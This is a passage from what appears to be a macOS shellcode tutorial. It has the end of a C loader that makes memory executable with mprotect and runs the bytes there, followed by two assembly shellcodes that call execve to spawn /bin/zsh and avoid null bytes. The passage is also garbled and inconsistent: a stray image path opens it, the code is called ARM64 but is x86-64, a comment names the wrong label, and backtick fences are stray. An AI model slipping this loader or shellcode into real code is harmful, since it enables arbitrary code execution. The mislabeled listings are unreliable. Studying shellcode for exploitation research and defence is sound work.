 ```
    printf("    |-> Return = %p\n", dst);

    int status = mprotect(ptr, 0x1000, PROT_EXEC | PROT_READ);

    if (status == -1) {
        perror("mprotect");
        exit(-1);
    }
    printf("[+] SUCCESS: mprotect\n");
    printf("    |-> Return = %d\n", status);

    printf("[>] Trying to execute shellcode...\n");

    sc = ptr;
    sc();

    return 0;
}
```
```

#### Shell

Taken from [[https://github.com/daem0nc0re/macOS_ARM64_Shellcode/blob/master/shell.s|**here**]] and explained.

**with adr**

```armasm
bits 64
global _main
_main:
    call    r_cmd64
    db '/bin/zsh', 0
r_cmd64:                      ; the call placed a pointer to db (argv[2])
    pop     rdi               ; arg1 from the stack placed by the call to l_cmd64
    xor     rdx, rdx          ; store null arg3
    push    59                ; put 59 on the stack (execve syscall)
    pop     rax               ; pop it to RAX
    bts     rax, 25           ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
    syscall
```
```

**with stack**

```armasm
bits 64
global _main

_main:
    xor     rdx, rdx          ; zero our RDX
    push    rdx               ; push NULL string terminator
    mov     rbx, '/bin/zsh'   ; move the path into RBX
    push    rbx               ; push the path, to the stack
    mov     rdi, rsp          ; store the stack pointer in RDI (arg1)
    push    59                ; put 59 on the stack (execve syscall)
    pop     rax               ; pop it to RAX
    bts     rax, 25           ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
    syscall
```
```


```